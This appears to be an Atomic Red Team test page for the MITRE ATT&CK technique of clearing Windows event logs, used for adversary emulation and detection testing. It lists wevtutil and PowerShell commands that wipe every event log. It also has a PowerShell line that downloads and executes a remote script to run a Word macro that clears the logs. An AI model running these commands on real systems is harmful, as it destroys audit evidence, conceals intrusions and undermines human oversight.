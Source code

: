 # T1070.001 - Clear Windows Event Logs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1070/001)
<blockquote>Adversaries may clear Windows Event Logs to hide the activity of an intrusion. Windows Event Logs are a record of a computer's alerts and notifications. There are three system-defined sources of events: System, Application, and Security, with five event types: Error, Warning, Information, Success Audit, and Failure Audit.

The event logs can be cleared with the following utility commands:

* <code>wevtutil cl system</code>
* <code>wevtutil cl application</code>
* <code>wevtutil cl security</code>

These logs may also be cleared through other mechanisms, such as the event viewer GUI or [PowerShell](https://attack.mitre.org/techniques/T1059/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - Delete System Logs Using Clear-EventLog](#atomic-test-2---delete-system-logs-using-clear-eventlog)

- [Atomic Test #3 - Clear Event Logs via VBA](#atomic-test-3---clear-event-logs-via-vba)


<br/>

## Atomic Test #1 - Clear Logs
Upon execution this test will clear Windows Event Logs. Open the System.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| log_name | Windows Log Name, ex System | String | System|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wevtutil cl #{log_name}
```






<br/>
<br/>

## Atomic Test #2 - Delete System Logs Using Clear-EventLog
Clear event logs using built-in PowerShell commands.
Upon successful execution, you should see the list of deleted event logs
Upon execution, open the Security.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty or has very few logs in it.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```






<br/>
<br/>

## Atomic Test #3 - Clear Event Logs via VBA
This module utilizes WMI via VBA to clear the Security and Backup eventlogs from the system. 

Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
